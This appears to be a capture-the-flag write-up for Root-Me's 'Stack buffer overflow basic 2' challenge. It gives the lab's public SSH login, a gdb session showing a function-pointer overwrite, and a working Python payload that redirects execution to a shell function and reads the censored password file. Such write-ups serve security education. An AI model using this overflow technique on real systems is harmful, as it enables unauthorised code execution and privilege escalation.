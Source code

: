 # ELF x86 - Stack buffer overflow basic 2
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-2
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch15@challenge02.root-me.org  
Username	app-systeme-ch15
Password	app-systeme-ch15
```
Like [ELF x86 - Stack buffer overflow basic 1](https://github.com/galbarak4/RootMe-Challenges/tree/master/System/ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201), there is a _buf_ variable (128 bytes).
But now there is a function pointer, _func_. Again no (serious) boundary check, so one can overflow the _buf_ variable and set the _func_ pointer to point to whatever he needs.<br>

First, let's verify that 132 bytes are enough for overwriting the _func_ pointer:
```gdb
(gdb) run < <(python -c "print 'A'*128+'DDDD'")
Starting program: /challenge/app-systeme/ch15/ch15 < <(python -c "print 'A'*128+'DDDD'")

Breakpoint 4, 0x080484c7 in main ()
(gdb) info registers
eax            0x44444444	1145324612
ecx            0xbffffafc	-1073743108
edx            0xb7fd18a4	-1208149852
ebx            0xb7fd0000	-1208156160
esp            0xbffffae0	0xbffffae0
ebp            0xbffffb88	0xbffffb88
esi            0x0	0
edi            0x0	0
eip            0x80484c7	0x80484c7 <main+59>
eflags         0x286	[ PF SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

As you may notice, the **eax** register set to "DDDD", right before the instruction ```call   *%eax```.<br>
Now, all left to do is change the "DDDD" to the **shell** function, and the program would call it:
```sh
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128+'\x64\x84\x04\x08'") - | ./ch15
id
uid=1115(app-systeme-ch15) gid=1115(app-systeme-ch15) euid=1215(app-systeme-ch15-cracked) groups=1215(app-systeme-ch15-cracked),100(users),1115(app-systeme-ch15)
cat .passwd
<censored>
```
